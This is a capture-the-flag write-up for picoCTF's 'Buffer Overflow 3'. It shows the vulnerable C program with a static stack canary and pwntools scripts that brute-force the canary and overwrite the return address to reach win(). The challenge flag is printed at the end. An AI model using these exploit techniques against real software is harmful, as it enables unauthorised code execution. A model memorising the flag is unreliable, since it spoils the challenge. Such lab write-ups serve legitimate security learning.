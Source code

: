 # Buffer Overflow 3
 
Again, a buffer overflow to a win function, but now with a *static* canary.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Reading the program, it places a canary onto the stack, based on what's in the file, after asking how long your message is. The length of the message doesn't matter, since the length can be more than the buffer size.

After a bit of trial and error, the furthest we can go without overwriting the stack canary is `64` characters. From here, we can brute force the canary.

Assuming the canary is only comprised of characters, we can simply try every character until one works. The list of characters is:
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`

Now, our program to brute force the canary (using process as our testing file):

```python
from pwn import *

inputs = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
canary = ""

for i in range(4):
	for i in range(len(inputs)):
		c = process("./vuln")
		payload = "a" * 64
		payload += canary
		payload += inputs[i]
		c.sendline(str(len(payload)))
		c.sendline(payload)
		line = c.readline()
		line = c.readline()
		if "*" not in line:
			canary += inputs[i]
			break

print(canary)
```

When running this on the server, you get the canary `BiRd`

We then put this into our program, and a bit of debugging using gdb, we get this program:

```python
from pwn import *

inputs = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

c = remote("saturn.picoctf.net", 51126)


payload = "a" * 64
payload += "BiRd"
payload += "c" * 16
payload += p32(0x08049336)
c.sendline(str(len(payload)))

c.sendline(payload)
c.interactive()
```

This nets us our flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}`

(which they are!)